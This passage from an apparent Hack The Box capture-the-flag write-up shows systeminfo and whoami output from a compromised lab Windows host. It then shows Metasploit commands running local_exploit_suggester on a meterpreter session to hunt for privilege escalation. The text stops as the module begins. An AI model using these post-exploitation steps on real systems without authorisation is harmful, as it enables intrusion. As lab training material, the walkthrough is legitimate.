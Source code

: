```
System Boot Time:          15/10/2019, 5:29:29 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 79 Stepping 1 GenuineIntel ~2400 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 691 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.506 MB
Virtual Memory: In Use:    542 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

This gives more detail on the version of Windows, system specs, plus interesting things like no hotfixes are installed. 

Oh and I also checked to see who I was:

```
c:\Windows>whoami
whoami
iis apppool\web
```

## Getting root

I knew there was a way to search for possible exploits on a machine when using a meterpreter shell, but I wasn't super familiar with how, so a little more research was needed. "local_exploit_suggester" looks at system info like we just viewed and reports back some possible vulnerabilities on the machine that can be leveraged.

```
msf5 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf5 post(multi/recon/local_exploit_suggester) > show options 

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf5 post(multi/recon/local_exploit_suggester) > set session 3
session => 3
msf5 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
```